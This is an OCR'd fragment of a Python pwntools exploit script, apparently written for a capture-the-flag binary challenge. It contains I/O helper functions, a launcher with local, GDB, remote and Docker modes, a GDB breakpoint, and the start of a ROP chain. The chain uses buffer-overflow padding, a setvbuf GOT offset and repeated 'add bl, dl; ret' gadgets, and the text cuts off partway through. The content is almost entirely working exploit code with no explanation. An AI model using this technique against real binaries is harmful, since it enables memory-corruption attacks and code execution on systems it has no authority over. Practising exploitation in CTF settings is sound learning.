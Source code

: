 ```python
    else p.sendafter(msg, str(num).encode())
)
sln = lambda num, proc=None: (
    proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
)
slna = lambda msg, num, proc=None: (
    proc.sendlineafter(msg, str(num).encode())
    if proc
    else p.sendlineafter(msg, str(num).encode())
)


def logbase():
    log.info("libc base = %#x" % libc.address)


def rcu(d1, d2=0):
    p.recvuntil(d1, drop=True)
    # return data between d1 and d2
    if d2:
        return p.recvuntil(d2, drop=True)


def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(
            int(pid),
            gdbscript=gdbscript
            + f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe",
            exe=exe.path,
        )
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = """
b*0x000000000040070E
c
"""

p = start()

# ==================== EXPLOIT ====================


def exploit():
    rop = ROP(exe)
    rop.raw(b"A" * (40 - 8))
    rop.raw(exe.got.setvbuf + 0x3D)
    for _ in range(4):
        rop.raw(
            0x00000000004005CF
        )  # add bl, dl; ret; dl = 0x20 so ebx = 0x80 after four iterations
    rop.raw(
```